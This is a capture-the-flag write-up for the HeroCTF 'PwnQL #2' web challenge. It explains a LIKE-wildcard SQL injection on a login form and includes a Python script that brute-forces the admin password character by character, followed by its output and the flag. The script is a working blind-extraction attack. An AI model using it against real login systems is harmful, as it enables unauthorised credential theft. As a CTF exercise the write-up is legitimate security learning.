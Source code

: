# PwnQL #2

### Category

Web

### Description

Extract the *admin*'s password from the database.

URL : http://chall2.heroctf.fr:8080 (same URL than before)

Format : **Hero{password}**<br>
Author : **xanhacks**

### Write up

So, here we are with the same vulnerability that the first PwnQL, but we need to extract the admin's password.

The goal here is to find the password according to the server response.

```
Example :

password : a% -> login error
password : b% -> login error
password : c% -> login error
password : d% -> login success

The admin's password starts with the letter 'd'.
```

Let's make a python to script which do the job for us.

```python
#!/usr/bin/env python3
from string import printable
from requests import post

URL = "http://challs.heroctf.fr:8080/index.php"

charset = printable.replace("_", "").replace("%", "")

print("flag : ", end="", flush=True)
flag = ""
for _ in range(32):
    for char in charset:
        data = {
            "username": "admin",
            "password": flag + char.strip() + "%"
        }

        req = post(URL, data=data)
    
        if "flag" in req.text:
            print(char, end="", flush=True)
            flag += char
            break
```

Execution :

```shell
$ python3 solve.py
flag : s3cur3p@ss
```

### Flag

Hero{s3cur3p@ss}